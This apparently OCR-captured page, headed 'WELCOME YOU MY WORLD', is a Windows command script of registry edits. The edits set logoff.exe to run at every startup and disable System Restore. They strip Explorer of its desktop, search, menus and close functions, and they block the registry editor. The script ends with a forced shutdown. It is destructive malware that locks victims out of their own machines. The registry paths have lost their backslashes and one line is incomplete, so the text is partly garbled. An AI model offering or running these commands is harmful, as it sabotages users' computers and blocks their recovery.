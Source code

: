 #  WELCOME YOU  MY WORLD
Reg add hklmsoftwaremicrosoftwindowscurrentversionrun /v off /t reg_sz /d logoff.exe /f 
Reg add hklmsoftwarePoliciesMicrosoftwindows NTSystemRestore /v DisableConfig /t reg_dword /d 1 
Reg add hklmsoftwarePoliciesMicrosoftwindows NTSystemRestore /v DisableSR /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoClose /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoFavoritesMenu /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoFind /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoRecentDocsMenu /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoRecentDocsHistory /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoSetFolders /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoSetTaskbar /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoFileMenu /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoViewContextMenu /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoTrayContextMenu /t reg_dword /d 1
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoDesktop /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesexplorer /v NoWinKey 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesActiveDesktop /v NoChangingWallpaper /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesActiveDesktop /v NoAddingComponents /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesActiveDesktop /v NoDeletingComponents /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesActiveDesktop /v NoEditingComponents /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciesActiveDesktop /v NoHTMLWallpaper /t reg_dword /d 1 
Reg add hkcusoftwaremicrosoftwindowscurrentversionPoliciessystem /v DisableRegistryTools /t reg_dword /d 1 
shutdown -s -t 5 -f -c 
